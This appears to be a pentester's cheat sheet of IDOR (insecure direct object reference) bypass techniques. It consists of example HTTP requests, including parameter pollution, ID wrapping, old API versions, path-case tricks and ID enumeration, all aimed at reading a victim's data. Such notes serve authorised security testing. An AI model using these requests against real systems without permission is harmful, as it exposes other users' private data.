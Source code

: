 # IDOR

Basically try to screw with evertything.

## Add parameters into the endpoints
```
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

## HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

## JSON Parameter Pollution:
```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Add .json to the endpoint, if it is built in **Ruby**!
```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Test on outdated API Versions
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

## Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## Wrap the ID with a JSON object:
``` 
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

## Missing Function Level Access Control

```
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT

https://pentestbook.six2dez.com/enumeration/web/idor
